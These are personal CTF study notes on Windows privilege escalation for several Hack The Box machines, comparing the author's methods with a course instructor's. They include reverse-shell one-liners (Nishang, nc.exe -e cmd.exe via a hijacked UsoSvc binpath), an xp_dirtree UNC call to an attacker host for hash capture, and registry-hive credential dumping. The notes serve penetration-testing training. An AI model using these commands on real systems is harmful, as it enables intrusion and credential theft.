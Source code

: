 #Windows #PrivEsc 

CTF Boxes:
1. [[Arctic - HTB]]
	- TCM used #CVE-2009-2265
2. [[Bastard - HTB]]
	- [Basic PowerShell for Pentesters](https://book.hacktricks.xyz/windows/basic-powershell-for-pentesters)
	- TCM created a msfvenom payload for popping a user shell instead of doing nc like I did
	- TCM used #Sherlock(Sherlock.ps1) for PrivEsc and #MS16-014 (kernel exploit from THM lab)
		- PrivEsc #MS15-051
		- I just did #JuicyPotato and rooted it...
3. [[Netmon - HTB]]
	- The Alfred THM box substituted for [[Netmon - HTB]]
		- web portal enumeration
		- `admin:admin` logs in as default
		- In configure tab, can run windows batch command, get revshell
			- #Invoke-PowerShellTCP Invoke-PowerShellTCP.ps1 #Nishang Nishang!
				- `Invoke-PowerShellTCP -Reverse -IPAddress <ip> -Port <port>`
				- catch with `nc`
		- TCM used MSF handler and transferred a msfvenom payload,
			- Impersonated with incognito by migrating to process running as `NT AUTHORITY/SYSTEM` since MSF `getshell` was not working
				- can do #JuicyPotato though like from Jeeves without MSF
4. [[Bastion - HTB]]
	- [Mounting VHD Files](https://medium.com/@klockw3rk/mounting-vhd-file-on-kali-linux-through-remote-share-f2f9542c1f25)
	- Different mounting steps, I downloaded #vhd then mounted, TCM created share drive with share and mounted from there (quicker and didn't download)
	- Also used #secretsdump to find password hash
		- TCM grabbed `SYSTEM` and `SECURITY` files as well from `C:\Windows\System32\config` and added that to secretsdump
			- This resulted in LSA dump with cleartext
5. [[Querier - HTB]]
	- [Capturing MSSQL Credentials](https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478)
	- TCM used #binwalk , should use with #olevba next time
	        - `binwalk -e <file>`
	        - `cd <folder extracted>`
	        - `cat vbaProject.bin`
	- TCM used #smbserver instead of #Responder (did this because the `reporting` account could not run `xp_cmdshell` so we caught a hash as the service account and it can run that)
		- #xp_dirtree allows passing of commands to SMB shares
			- In the SQL Server instance, execute the xp_dirtree stored procedure, passing a UNC path to the SMB share as an argument. For example: `EXEC MASTER.sys.xp_dirtree '\\<attacker_IP>\any\thing', 1, 1`
	- TCM #PowerUp found binary path vulnerability with `UsoSvc`... my #PowerUp showed cleartext password in GPP
		- TCM changed the #binpath config for `USoSvc`
			- `sc config UsoSvc binpath="C:\Reports\nc.exe 10.10.14.5 5555 -e cmd.exe"`
			- `sc qc UsoSvc
			- `sc stop UsoSvc`
			- `nc -lnvp 5555`

